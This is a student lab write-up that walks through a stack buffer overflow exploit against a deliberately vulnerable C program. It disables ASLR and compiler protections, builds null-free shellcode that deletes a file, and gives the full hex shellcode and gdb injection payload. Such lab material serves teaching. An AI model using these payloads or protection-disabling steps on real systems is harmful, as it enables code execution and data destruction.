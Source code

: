 # 21110755, Phạm Văn Cao

#Lab#2 Inject code to delete file: file_del.asm is given on github 

## I. Setup enviroment.
The command `sudo sysctl -w kernel.randomize_va_space=0` is used to disable Address Space Layout Randomization (ASLR) on the system.The image below shows the execution of this command.

![alt text](imgs/1.png)

The code has a **buffer overflow** vulnerability because `strcpy()` is used without checking the length of the input string, which can cause memory overwrite if the input is too long.

![alt text](imgs/2.png)

We then proceed to compile the program using the following options.
The command `gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2` compiles the `vuln.c` file with several flags:
- `-g` includes debugging information.
- `-fno-stack-protector` disables stack protection, making the program more vulnerable to buffer overflows.
- `-z execstack` allows the stack to be executable, which can enable the execution of injected code.
- `-mpreferred-stack-boundary=2` changes the stack alignment to 4 bytes, which can influence how memory is allocated.

![alt text](imgs/3.png)

Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:
sudo ln -sf /bin/zsh /bin/sh .

Based on the sample assembly file, we compile it and view it in hexadecimal format to observe the output.

![alt text](imgs/4.png)

![alt text](imgs/5.png)

We observe that the string contains `\x00` (null bytes), which can prematurely terminate the shellcode. Therefore, i create new file `file_del1.asm` to prevent the inclusion of null bytes and ensure the shellcode executes correctly.

![alt text](imgs/6.png)

![alt text](imgs/7.png)

string shell code: \xeb\x15\x31\xc0\xb0\x05\x04\x05\xbb\x7c\x80\x04\x08\xcd\x80\x31\xc0\xb0\x02\x2c\x01\xcd\x80\xe8\xe6\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65

In the `objdump` analysis of `file_del1`, compiled from `file_del.asm`,

![alt text](imgs/8.png)

 we see the disassembled code and hexadecimal representation of the file. The string `dummyfile` is stored at address `0x804807c`. However, this address will change once the shellcode is inserted into the buffer. Thus, we need to adjust the address to match the new location of the string in the buffer.


in vuln.c program we have stack frame

![alt text](imgs/9.png)

string shell code have length = 37 bytes
space length = 68 - 37 =  31 in this 68 are sum of (buf + EBP)
and a string to recognize return address : '\xff\xff\xff\xff'
So, we have prestring buffer: 
r $(python -c "print('\xeb\x15\x31\xc0\xb0\x05\x04\x05\xbb\x7c\x80\x04\x08\xcd\x80\x31\xc0\xb0\x02\x2c\x01\xcd\x80\xe8\xe6\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65'+'A'*31+'\xff\xff\xff\xff')")





